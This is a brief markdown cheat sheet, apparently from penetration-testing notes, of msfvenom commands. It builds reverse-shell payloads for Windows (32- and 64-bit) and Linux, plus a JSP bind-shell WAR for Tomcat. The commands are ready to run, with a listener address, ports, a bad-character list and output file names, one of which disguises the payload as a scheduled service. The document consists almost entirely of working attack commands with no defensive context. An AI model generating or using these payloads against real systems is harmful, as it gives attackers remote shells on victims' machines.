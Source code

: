 # msfvenom

### windows 32bit

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.19.66 LPORT=1337 -b "\x00\x04\x58\x9d\xad\xe7\x0a\x0d" -f python
```

### windows 64bit - executable

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.19.66 LPORT=443 -f exe-service -o Scheduled.exe-service
```

### linux 64bit - executable

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.19.66 LPORT=4080 -f elf -o rce
```

### java classic tomcat `*.war` file

```bash
msfvenom -p java/jsp_shell_bind_tcp LPORT=60001 -f war > shell.war
```
